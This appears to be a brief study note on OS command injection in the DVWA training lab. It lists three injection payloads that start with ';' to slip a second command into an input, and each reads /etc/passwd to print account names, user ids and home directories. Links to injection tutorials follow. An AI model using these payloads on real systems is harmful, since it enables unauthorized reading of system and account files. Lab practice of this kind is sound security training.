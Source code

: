 # 03 - Data Exfiltration

Search Tag: #command-injection #dvwa

`; while read line; do echo $line; done < /etc/passwd`

`; while IFS= read -r line;do echo "$line"; done < /etc/passwd`

`; while IFS=: read -r username password userid groupid comment homedir cmdshell;do echo "$username, $userid, $comment $homedir"; done < /etc/passwd`

---
## References

- [Hacking Articles: Comprehensive Guide on OS Command Injection](https://www.hackingarticles.in/comprehensive-guide-on-os-command-injection/)

- [YeahHub: Command Injection Meterpreter Shell Detailed Tutorial 2018](https://www.yeahhub.com/command-injection-meterpreter-shell-detailed-tutorial-2018/)